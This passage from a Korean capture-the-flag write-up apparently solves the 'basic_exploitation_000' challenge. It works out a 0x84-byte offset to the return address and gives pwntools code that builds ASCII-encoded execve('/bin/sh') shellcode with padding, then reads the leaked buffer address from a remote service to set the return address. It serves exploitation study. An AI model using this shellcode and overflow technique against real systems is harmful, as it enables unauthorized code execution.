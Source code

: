 이 부분을 봐도 되고,

![Untitled](/assets/img/posts/basic_exploitation_000/Untitled%204.jpeg){: width="100%" height="100%"}

이 부분을 봐도 된다. 첫 번째 사진의 경우 `esp`에 `-0x80`을 더하고 있고(저 시점에서는 `ebp`==`esp`이다) 두번째 사진에서는 scanf의 두번째 인자(입력값이 저장될 주소)로 `ebp-0x80`을 하고 있다.

즉, buf[0]에서부터 ret add까지의 바이트 수는 `0x84 byte`이다.

따라서 dump byte의 바이트 수는 `0x84-shellcode byte` 가 된다.

이 점을 반영하기 위해 아래와 같이 코딩했다.

```python
from pwn import *

context.update(arch='i386', os='linux')
avoid = {'\x00', '\x09', '\x0a', '\x0b', '\x0c', '\x0d', '\x20'}

tmp_shellcode= asm(shellcraft.execve("/bin/sh", 0, 0))
shellcode= encoders.i386.ascii_shellcode.encode(tmp_shellcode, avoid)
shellcode_len=len(shellcode)

payload = shellcode
payload +=b'A'*(0x84-shellcode_len)
```

<br>

## 2. 3. ret address 알아내기

<br>

주어진 소스를 다시 보면, buf의 시작 주소를 출력해 준다는 것을 알 수 있다. 따라서 프로그램의 출력값을 읽어오는 pwntools의 recv 함수가 필요하다.

아래와 같이 코딩했다.

```python
from pwn import *

# receiving data and sending data

p = remote('{target_url}', {port_num})
# process("./basic_exploitation_000")

data = str(p.recvline())
dump, data = data.split('(')
data, dump = data.split(')')

data=int(data, 16)

# constructing payload

ret_add=p32(data)
```
